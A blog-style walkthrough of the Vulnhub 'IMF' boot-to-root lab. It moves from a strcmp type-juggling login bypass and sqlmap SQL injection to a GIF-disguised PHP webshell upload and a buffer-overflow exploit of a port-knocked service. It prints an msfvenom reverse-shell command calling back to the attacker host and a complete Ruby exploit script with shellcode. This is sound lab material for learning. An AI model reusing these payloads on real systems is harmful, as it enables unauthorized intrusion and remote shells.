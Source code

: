 +++
menu = "main"
Description = "A walkthrough of the IMF VM from Vulnhub"
date = "2016-11-01T19:16:02-04:00"
title = "B2R: IMF Walkthrough"
Categories = [ "Boot2Root" ]
+++

After mapping the network and finding our IP address at `192.168.1.162`, we can add it to our `/etc/hosts`
temporarily to make things a little easier for us.

~~~bash.prettyprint
echo "192.168.1.162     imf" >> /etc/hosts
~~~

Lets see what kind of machine we're dealing with. 

![](https://i.imgur.com/1DmhXnq.png)


Ok, so web only. Great. `nikto` didn't reveal any low-hanging fruit so let's dive into the source.

![](https://i.imgur.com/S4hPuB2.png)

Check that out! Our first flag was hidden in `http://imf/contact.php`. This looks like base64. After decoding
we get the clue `allthefiles`. Lets keep looking.

Going back to the source code, I found a javascript file that also looked like it was base64 but it didn't
return any results. After a while of going in circles I took my dog for a walk and pondered about what
'allthefiles' could mean. When I came back and looked over the source code again, I saw this:

![](https://i.imgur.com/ANZ1UgC.png)

All the files, ey? 

![](https://i.imgur.com/Ik1rUga.png)

If we visit that directory on our webapp

![](https://i.imgur.com/75xqVVJ.png)

Ok, no DB here. We're dealing with a hardcoded password which means we're dealing with an equaltiy operator
on the backend or possibly the `strcmp()` function. I messed around with nullbyte string termination exploits
here for a while but ultimately ended up nowhere. Let's assume we're dealing with `strcmp` since it's easier
to fool a function than to fool an operator. 

![](https://i.imgur.com/qo8t92C.png)

I'm not very good with PHP, but I'm guessing that I need this function to return a `0` so I fired up
[repl.it](https://repl.it) and started trying to break it. Turns out if you feed it the wrong type (it
expects two strings), it seems to return a `0`.

![](https://i.imgur.com/iQiFPrC.png)
 
So if we can feed this function an array from the web form, we might be able to bypass the password check. By
changing the name of the form's password field from `pass` to `pass[]`, we can do just that. 

![](https://i.imgur.com/DpxX4o7.png)

With the modified form, a BS password, and a username from the Contacts page, we get...

![](https://i.imgur.com/wB0UUP3.png)

The decoded flag just has us click through to the CMS

~~~bash.prettyprint
root@kali:~                                                                                                                                                                                     ⍉
❯❯ echo Y29udGludWVUT2Ntcw== | base64 -d
continueTOcms
~~~

The CMS has 3 pages to choose from and none of them seemed to have any relevant info. I tried (too long) to
use LFI exploits here, modifying URLs, headers, HTTP methods... nothing. I was trying to enter an empty
`pagename` for like the 100th time when I fat fingered the "enter" key and hit `' + Enter` at the same time
when I saw this:

![](https://i.imgur.com/Oqo4ZQg.png)

SQL! Alright, fired up `sqlmap`

![](https://i.imgur.com/izezAtP.png)
![](https://i.imgur.com/uckNUTe.png)

Looks like we have an image at `imfadministrator/images/whiteboard.jpg`

![](https://i.imgur.com/BBLfAQY.png)

The QR Code is our next flag `flag4{dXBsb2FkcjkOMi5waHA=}`

~~~bash.prettyprint
root@kali:~                                                                                                                                                                                     ⍉
❯❯ echo dXBsb2Fkcjk0Mi5waHA= | base64 -d
uploadr942.php   
~~~

We navigate to `http://imf/imfadministrator/uploadr942.php` and we get our uploader. After messing around
with it a bit we can see that the response html from a successful upload has a hash of some sort. I'm
guessing its the hashed version of the filename in the `/uploads` folder. 

Maybe we can craft a malicious image with a reverse_tcp meterpreter payload then insert the new page into our
db so it gets executed.

![](https://i.imgur.com/y8obNV4.png)

Let's upload it!

![](https://i.imgur.com/ePzjKU9.png)

Haha! Whoops. Alright what about just regular command execution:


~~~bash.prettyprint
cat <<EOF > muahaha.gif
GIF89a
<?php \`id\` ?>
~~~

Since CrappyWAF detects functions calls, we should modify our script to take the command from a query
parameter. Let's replace `id` with `$cmd=$_GET['cmd']; echo $cmd` and try again.

![](https://i.imgur.com/v0uaGPw.png)

Lets get a shell that's easier to work with with `msfvenom`.

![](https://i.imgur.com/lXrjIik.png)
![](https://i.imgur.com/dRelPbw.png)


It's time to get a sense of the machine we're in. "Presence"

  * interesting processes - knockd, sshd
  * interesting files (world readable, executable root files, etc) - `/usr/local/bin`
    * `cat /usr/local/bin/access_codes #> SYN 7482,8279,9467`
    * `/usr/local/bin/agent` - connect to some sort of agent portal; download it
  * listening ports `netstat -plnt` - 7788

It looks like we've got a hidden service running on 7788. To enable it, we have to 'knock' in the right order
so the firewalll opens up. If we send SYN packets to 7482 8279 9467, it might open up.

![](https://i.imgur.com/SgDQYRk.png)
![](https://i.imgur.com/SdM3380.png)

Lets decompile our downloaded binary at https://retdec.com/decompilation-run/

![](https://i.imgur.com/WnuLN8R.png)

We can see on line 49 where the authentication happens. It's comparing against a string that was defined on
line 37, `0x2ddd984`. If we pop this into an online hex converter, we get `48093572`

![](https://i.imgur.com/rs6S3Yf.png)

After navigating through our binary, we have a place where we have user input. This is looking like it's
going to be a buffer overflow exploit. Once we download our application and run it through `gdb`, we confirm
that the report function is vulnerable. 

![](https://i.imgur.com/4CxBLoX.png)
![](https://i.imgur.com/bD9RCyw.png)

Bingo. Plug 0x41366641 into `pattern_offset` we see that our buffer ends at 168, meaning our EIP register is
at 169. If we inspect the assembly for the `report` function, we see that our report string is stored in EAX.
Because we have control of both EIP and EAX, it makes sense that we use this control to point one to the
other. We can place our exploit at the beginning of EAX by simply injecting it as the "report". We'll then
pad the input string until it's 168 characters long. Then, well tell EIP that it should return to the
beginning of EAX where our payload is waiting.  If we search to see if EAX is ever called, we can use that
address in EIP. 

![](https://i.imgur.com/R7BFi8b.png)
![](https://i.imgur.com/3yWsjBr.png)

Lets generate our shellcode and start to write the exploit.

~~~bash.prettyprint
msfvenom -p linux/x86/shell/reverse_tcp LHOST=192.168.1.161 LPORT=4444 -f ruby -b "\x00\x0a\x0d"
~~~

~~~bash.prettyprint
require 'socket'

host = '192.168.1.162'

if ARGV[0] == 'knock'
  [7482, 8279, 9467].each do |port|
    puts "knocking on #{port}"
    `nmap -Pn --host_timeout 201 --max-retries 0 -p #{port} #{host} &>/dev/null`
  end
end

buf = 
"\xda\xd4\xd9\x74\x24\xf4\x58\xbb\xc8\x28\xf5\xc3\x29\xc9" +
"\xb1\x12\x31\x58\x1a\x83\xc0\x04\x03\x58\x16\xe2\x3d\x19" +
"\x2e\x34\x5e\x09\x93\xe8\xca\xac\xa3\x69\x83\x50\x0e\xf5" +
"\x04\xc9\xf9\x36\x82\xef\x58\xde\xd0\xef\x8b\x43\x5d\x0e" +
"\xc1\x1d\x05\x81\x47\xb5\x3c\xc0\x2b\xf4\xbe\xb1\xab\xbf" +
"\xbe\xa5\xb3\xbf\x37\x26\x72\x54\x4b\x68\x96\xa7\xe3\x17" +
"\x94\x38\x58\x61\xc7\xa0\xe8\x7d\xb8\xd0\xd9\xfe\x47\x37"

eip = "\x63\x85\x04\x08"

exploit = buf + "A"*70 + eip

s = TCPSocket.new(host, 7788)
puts s.readpartial(512)
s.write("48093572\n")

puts s.readpartial(512)
s.write("3\n")

puts s.readpartial(512)
s.write(exploit + "\n")
~~~

Let's run it!

![](https://i.imgur.com/ImmvfQj.png)

And there we have it! Thanks for reading!


